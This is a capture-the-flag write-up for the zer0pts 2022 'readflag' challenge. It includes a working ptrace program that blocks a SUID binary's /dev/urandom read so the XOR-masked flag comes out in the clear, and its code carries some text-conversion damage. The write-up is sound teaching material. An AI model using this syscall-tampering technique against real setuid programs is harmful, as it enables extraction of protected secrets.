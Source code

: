 # readflag  
* Category: `Misc`  
* Solves: `10`  
* Points: `277`  
* Description: `All you need is strings.`

```c  
#include <stdio.h>

const char flag[] =
"fak3pts{nyanyanyanyanyanyanyanyanyanyanyanyanyanyanyanya}";

int main() {  
   FILE *random;  
   if ((random = fopen("/dev/urandom", "rb")) == NULL) {  
       perror("fopen");  
       return 1;  
   }

   for (const unsigned char *f = flag; *f; f++) {  
       unsigned char r;  
       if (fread(&r, 1, 1, random) != 1) {  
           perror("fread");  
           return 1;  
       }  
       printf("%02x", *f ^ r);  
   }

   printf("\n");

   return 0;  
}  
```

This looks simple enough. The flag is printed out after being XORed with an
unpredictable one-time-pad. We can't recover the flag from the output, but the
flag is in plaintext - let's just read the binary!

`---s--x--x   1 root root 16848 Mar 16 07:46 readflag`

Unfortunately, we can't. We only have execute permissions on the binary. How
can we access the flag?

Ideas:  
- Use `LD_PRELOAD` to make the data returned from `fread` predictable?   
* The SUID bit is set, which causes `LD_PRELOAD` and similar variables to be cleared  
- Use `ptrace` + `PTRACE_PEEKTEXT` to read the flag out of binary memory?  
* As the filesystem permissions do not allow reading or writing, we don't have the ability to do this, and PEEKTEXT will be denied  
- Use `PTRACE_SYSCALL` to prevent `/dev/urandom` from being read out?  
* This works - under `ptrace`, even though we can't edit memory, we can trace the programs behaviour and modify its registers.

Some light debugging reveals that the initial `fread` causes `read(fd, <buf>,
4096)`, as the program buffers the extra file data. So, we write a program to
simple disable this syscall:

```c  
#include <sys/ptrace.h>  
#include <sys/types.h>  
#include <sys/wait.h>  
#include <unistd.h>  
#include <stdlib.h>  
#include <fcntl.h>  
#include <stdio.h>  
#include <errno.h>  
#include <sys/personality.h>  
#include <sys/user.h>

int main(int argc, char *argv[])  
{   pid_t traced_process;  
   struct user_regs_struct regs = {};  
   long ins;  
   if(argc != 2) {  
       printf("Usage: %s <program to be traced>\n",  
              argv[0], argv[1]);  
       exit(1);  
   }  
   int pid = fork();  
   if (pid == 0) {  
       ptrace(PTRACE_TRACEME, 0, 0, 0);  
       execve(argv[1], &argv[1], NULL);  
       puts("exec failed");  
       return -1;  
   }  
   wait(NULL);  
   while (1) {  
       int blocked = 0;  
       // Wait until the child makes a syscall  
       ptrace(PTRACE_SYSCALL, pid, 0, 0);  
       waitpid(pid, 0, 0);  
       ptrace(PTRACE_GETREGS, pid, 0, ®s;;  
       // Are we trying to read /dev/urandom?  
       if (regs.orig_rax == 0 && regs.rdx == 4096) {  
           blocked = 1;  
           // Set it to use an invalid syscall number so it will fail  
           regs.orig_rax = -1;  
           ptrace(PTRACE_SETREGS, pid, 0, ®s;;  
       }  
       // Continue on with the now blocked syscall  
       ptrace(PTRACE_SYSCALL, pid, 0, 0);  
       waitpid(pid, 0, 0);  
       // The program checks return value of the read, so we need to make sure that the return value isn't `-ENOSYS`  
       if (blocked) {regs.rax = 1; ptrace(PTRACE_SETREGS, pid, 0, ®s;; }  
   }  
   return 0;  
}  
```

We upload this on the remote, and execute it against `/readflag` to receive:
`7a6572307074737b446561722064696172792e2e2e20576169742c2061726520796f75722072656164696e6720746869733f2053746f70217d0a`  
Decoding this from hex, we get the real flag:

`zer0pts{Dear diary... Wait, are your reading this? Stop!}`  

Original writeup (https://clubby789.me/zer0pts2022/#readflag).